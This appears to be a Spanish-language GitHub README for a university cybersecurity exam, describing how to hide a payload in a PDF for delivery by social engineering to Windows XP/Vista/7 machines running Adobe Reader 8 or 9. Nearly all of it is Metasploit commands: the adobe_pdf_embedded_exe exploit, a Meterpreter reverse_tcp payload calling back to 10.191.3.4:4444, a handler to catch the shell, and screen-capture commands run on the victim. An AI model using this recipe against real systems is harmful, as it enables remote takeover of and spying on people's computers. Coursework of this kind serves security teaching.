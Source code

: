# -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
ifconfig <br />
set lhost 10.191.3.4 <br />
set lport 4444 <br />
set infilename /root/parcial/el_gigante_egoista.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost 10.191.3.4 <br />
set lport 4444 <br />
exploit <br /> 
<br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab

